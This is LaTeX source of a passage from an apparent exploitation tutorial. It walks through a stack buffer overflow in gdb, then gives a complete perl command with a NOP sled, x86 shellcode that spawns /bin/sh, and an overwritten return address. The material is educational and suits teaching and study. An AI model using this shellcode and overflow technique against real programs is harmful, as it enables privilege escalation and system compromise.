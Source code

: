 \documentclass{article}
\begin{document}
\noindent now observe the content of the local variable "\lstinline{buf}":
\begin{center}
    \lstinline{x/24xw buf}\\
    \lstinline{c}\\
    \lstinline{x/24xw buf}
\end{center}
\noindent we are now at the end of the function and have seen how much we over-write and where the return call is. For my version I would need to write another 16 bytes to overwrite the \lstinline{EIP} stored on the stack (total of 80 bytes).\\

\noindent Now we include the shellcode in the perl string and the address we want
to write to (the address where "\lstinline{buf}" is). For me the address of "\lstinline{buf}" was
\lstinline{0xbffff230}. So now I just need to combine all these parts into a single command to send to the program was the command that worked for me:
\begin{lstlisting}
run `perl -e 'print "\x90"x21  
    . "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88
        \x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd
        \x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e\x41\x41\x41
        \x41\x42\x42\x42\x42" 
    . "\x40\xf2\xff\xbf"'` //return address
\end{lstlisting}
\noindent The \lstinline{"\x90"x21} is padding to put the shellcode and the address of \lstinline{buf} (after the shell code) into the right position.\\

\noindent Note that "\lstinline{\x90}" is a non-operation on x86 and so the program will execute this "nop sled" to reach the shellcode.\\

\noindent This will now drop you into a shell if run from \lstinline{gdb}... but will may crash if you have breakpoints. To have the optimal outcome you may need to quit out of \lstinline{gdb} and restart \lstinline{gdb}, but then the shellcode should execute without any problem and drop you into a shell.\\
\end{document}
